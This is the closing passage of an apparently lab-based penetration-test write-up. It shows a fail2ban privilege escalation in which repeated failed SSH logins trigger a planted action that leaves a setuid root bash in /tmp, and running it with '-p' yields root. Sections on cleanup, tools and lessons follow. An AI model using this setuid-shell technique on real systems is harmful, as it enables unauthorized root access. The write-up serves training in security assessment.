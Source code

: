 Attempt to login into the target and fail multiple times. This will cause fail2ban to execute the exploit.
```bash
ssh victor@192.168.84.126 
```

```bash
ls -al /tmp/bash

# output
-rws-----x  1 root root 1168776 Aug 17 00:11 bash
```

```bash
/tmp/bash -p
id

# output
uid=1000(fox) gid=1001(fox) euid=0(root) groups=1001(fox),1000(fail2ban)
```

## Covering Tracks
The house cleaning portions of the assessment ensures that remnants of the penetration test are removed. Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road. Ensuring that we are meticulous and no remnants of our penetration test are left over is important. After the trophies on both the lab network and exam network were completed, Victor removed all user accounts and passwords as well as the Meterpreter services installed on the system. Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items
## Tools Used
* nmap

## Lessons Learned
* Use multiple tools